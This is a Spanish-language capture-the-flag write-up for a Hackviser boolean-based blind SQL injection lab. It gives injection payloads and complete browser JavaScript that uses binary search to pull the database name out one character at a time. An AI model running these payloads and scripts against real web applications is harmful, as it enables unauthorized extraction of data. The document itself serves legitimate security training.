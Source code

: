 # CTF Boolean-Based Blind SQLi Lab

## Información
- **URL**: https://cunning-polaris.europe1.hackviser.space/
- **Tipo**: Boolean-Based Blind SQL Injection
- **Objetivo**: Extraer el nombre de la base de datos

## Paso 1: Confirmación del Motor de Base de Datos

**Comando de prueba:**
```sql
' OR (SELECT database()) IS NOT NULL -- 
```

**Resultado**: `true` → Confirmado **MySQL/MariaDB**

> **Nota**: Para otros motores se usaría:
> - PostgreSQL: `current_database()`
> - SQL Server: `DB_NAME()`
> - SQLite: `pragma_database_list`

## Paso 2: Configuración de la Función Tester

**Función JavaScript para automatizar las pruebas:**
```javascript
const test = (payload) =>
  fetch(location.href,{
    method:'POST',
    headers:{'Content-Type':'application/x-www-form-urlencoded'},
    body:'search='+encodeURIComponent(payload)
  }).then(r=>r.text()).then(h=>/in stock/i.test(h)); // true = "in stock"
```

**Pruebas de validación:**
```javascript
await test(`' OR 1=1 -- `);   // true
await test(`' OR 1=2 -- `);   // false
```

## Paso 3: Extracción de la Longitud del Nombre de la BD

**Función de búsqueda binaria para longitud:**
```javascript
async function dbLen() {
  let lo = 1, hi = 64;
  while (lo < hi) {
    const mid = Math.floor((lo+hi+1)/2);
    if (await test(`' OR LENGTH(database())>=${mid} -- `)) lo = mid;
    else hi = mid-1;
  }
  return lo;
}
```

**Ejecución:**
```javascript
const length = await dbLen();
console.log('Longitud de la BD:', length);
```

## Paso 4: Extracción de Cada Carácter

**Función para obtener carácter por posición:**
```javascript
async function charAt(pos) {
  let lo = 32, hi = 122; // rango ASCII visible
  while (lo < hi) {
    const mid = Math.floor((lo+hi+1)/2);
    if (await test(`' OR ASCII(SUBSTRING(BINARY database(),${pos},1))>=${mid} -- `)) lo = mid;
    else hi = mid-1;
  }
  return String.fromCharCode(lo);
}
```

## Paso 5: Reconstrucción del Nombre Completo

**Script principal para extraer el nombre:**
```javascript
(async () => {
  const L = await dbLen();
  let name = '';
  for (let i=1; i<=L; i++) {
    name += await charAt(i);
    console.log('→', name);
  }
  console.log('DATABASE =', name);
})();
```

## Resultado

✅ **Nombre de la base de datos**: `echo_store`

## Resumen

| Paso | Comando | Propósito |
|------|---------|-----------|
| 1 | `' OR (SELECT database()) IS NOT NULL -- ` | Detectar motor MySQL/MariaDB |
| 2 | `' OR 1=1 -- ` | Validar inyección booleana (true) |
| 3 | `' OR LENGTH(database())>=${mid} -- ` | Obtener longitud del nombre BD |
| 4 | `' OR ASCII(SUBSTRING(BINARY database(),${pos},1))>=${mid} -- ` | Extraer cada carácter |

## Técnicas

- **Boolean-Based Blind SQLi**: Explotación basada en respuestas true/false
- **Búsqueda Binaria**: Optimización para reducir número de requests
- **Extracción ASCII**: Conversión de códigos ASCII a caracteres
- **Automatización JavaScript**: Scripts para acelerar el proceso

## Notas

- Se utilizó `BINARY` en la función `SUBSTRING` para evitar problemas de case sensitivity
- El rango ASCII (32-122) cubre todos los caracteres visibles comunes
- La función `test()` detecta el patrón "in stock" como indicador de condición verdadera
- La búsqueda binaria reduce el tiempo de ejecución comparado con fuerza bruta

---
